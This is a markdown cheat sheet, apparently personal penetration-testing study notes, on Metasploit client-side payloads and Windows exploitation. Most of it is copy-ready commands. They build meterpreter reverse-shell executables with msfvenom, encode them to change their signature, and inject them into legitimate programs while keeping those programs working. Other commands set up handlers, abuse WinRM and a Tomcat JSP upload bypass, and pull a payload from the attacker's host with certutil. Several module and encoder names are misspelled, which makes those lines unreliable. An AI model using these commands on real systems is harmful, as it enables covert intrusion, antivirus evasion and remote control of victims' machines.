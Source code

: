 
# Client-Side Attacks

##### Payloads
- `msfvenom --list payload` -- list the payload
- `msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=[Your IP] LPORT=1234 -f exe > /path/to/payload.exe`
- `msfvenom --list formats`
- set up hander (before executing payload)
	- use multi/handler
	- set payload windows/x64/meterpreter/reverse_tcp
	- set LHOST 10.12.12.1
	- set LPORT 1234
	- run
- Encoding is the process of modifying the payload shellcode with the objective of modifying the payload signature
- `msfvenom --list encoders`
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP] LPORT=1234 -i 10 -e x86/shikata_ga_mai -f exe > /path/to/payload.exe`
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP] LPORT=1234 -i 10 -e x86/shikata_ga_mai -f exe -x /path/to/exe/file/for/injection > /path/to/payload.exe` -- to inject the payload in portable executable
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP] LPORT=1234 -i 10 -e x86/shikata_ga_mai -f exe -k -x /path/to/exe/file/for/injection > /path/to/payload.exe` -- to inject the payload in portable executable while keeping original functionality of exe

---
---

# Exploitation

###### Windows Exploitation
- Winrm
	- `auxiliary/scanner/winrm/winrm_login`
	- `auxiliary/scanner/winrm/winrm_cmd`
	- `exploit/windows/winrm/winrm_script_exec`
		- `set force_vbs true`
- Apache V58.5.19
	- `exploit/multui/http/tomcat_jsp_upload_bypass`
	- `set payload java/jsp_shell_bind_tcp`
	- `set SHELL cmd`
	- the above will only give shell for meterpreter we need to upload the exe
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP] LPORT=1234 -f exe > meterpreter.exe`
	- `python3 -m http.server 80` 
	- on shell 
	- `certutil -urlcache -f http://[your IP]/meterpreter.exe meterpreter.exe`
	- now make .rc file
		- vim handler.rc
		- use multi/handler
		- set PAYLOAD windows/meterpreter/reverse_tcp
		- set LPORT 1234
		- set LHOST [YOUR IP]
		- run
	- msfconsole -r handler.rc
	- on shell .\meterpreter.exe
###### Linux Exploitation
- always search for versions (eg., libssh-ssh, haraka smtp) instead of name
